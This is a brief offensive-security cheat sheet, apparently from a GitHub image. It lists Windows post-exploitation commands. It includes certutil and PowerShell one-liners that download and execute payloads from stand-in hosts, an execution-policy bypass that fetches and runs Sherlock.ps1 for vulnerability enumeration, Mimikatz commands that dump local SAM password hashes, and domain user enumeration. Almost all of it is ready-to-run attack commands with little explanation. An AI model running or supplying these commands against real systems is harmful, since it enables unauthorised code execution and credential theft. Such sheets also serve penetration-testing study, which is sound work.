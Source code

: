 # Download stuff

1. certutil -urlcache -split -f http://source.ip/payload.exe payload.exe
2. Download the file: 
Invoke-WebRequest -Uri "url" -OutFile "dest"
3. Download and execute: 
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('ip/src')"

# Enumeration

powershell.exe -exec bypass -C "IEX(New-Object System.Net.WebClient).DownloadString('http://xxx.xxx.xxx.xxx/Sherlock.ps1');Find-AllVulns"


# AD Wargaming

1.Find AD: nslookup

get local password hashes with Mimikatz

privilege::debug
token::elevate
lsadump::sam c:\tmp\sam.hiv c:\tmp\sec.hiv

2. getting Domain users

net user /domain

